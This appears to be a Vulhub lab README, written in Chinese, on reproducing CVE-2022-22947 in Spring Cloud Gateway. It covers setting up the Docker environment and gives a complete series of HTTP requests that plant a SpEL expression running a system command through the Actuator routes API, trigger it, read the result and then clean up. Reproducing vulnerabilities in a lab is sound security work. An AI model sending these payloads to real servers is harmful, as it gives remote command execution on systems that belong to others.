





# Spring Cloud Gateway Actuator API SpEL 表达式注入命令执行 CVE-2022-22947

## 漏洞描述

Spring Cloud Gateway 是 Spring 中的一个 API 网关。其 3.1.0 及 3.0.6 版本（包含）以前存在一处 SpEL 表达式注入漏洞，当攻击者可以访问 Actuator API 的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22947
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

## 环境搭建

Vulhub 执行如下命令启动一个使用了 Spring Cloud Gateway 3.1.0 的 Web 服务：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到演示页面，这个页面的上游就是 example.com。



## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意 SpEL 表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```



然后，发送如下数据包应用刚添加的路由。这个数据包将触发 SpEL 表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```



## 开源 POC

- Xray
- https://github.com/chaosec2021/CVE-2022-22947-POC
